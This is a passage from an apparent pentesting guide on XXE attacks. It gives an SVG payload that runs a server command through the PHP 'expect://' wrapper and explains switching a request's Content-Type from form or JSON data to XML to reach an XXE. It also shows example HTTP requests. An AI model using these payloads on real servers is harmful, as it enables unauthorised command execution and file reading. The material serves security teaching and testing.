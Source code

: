 Another method involves attempting to **execute commands** through the PHP "expect" wrapper:

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

In both instances, the SVG format is used to launch attacks that exploit the XML processing capabilities of the server's software, highlighting the need for robust input validation and security measures.

Check [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) for more info!

**Note the first line of the read file or of the result of the execution will appear INSIDE the created image. So you need to be able to access the image SVG has created.**

### **PDF - File upload**

Read the following post to **learn how to exploit a XXE uploading a PDF** file:

{{#ref}}
file-upload/pdf-upload-xxe-and-cors-bypass.md
{{#endref}}

### Content-Type: From x-www-urlencoded to XML

If a POST request accepts the data in XML format, you could try to exploit a XXE in that request. For example, if a normal request contains the following:

```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Content-Type: From JSON to XEE

To change the request you could use a Burp Extension named “**Content Type Converter**“. [Here](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) you can find this example:

```xml
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

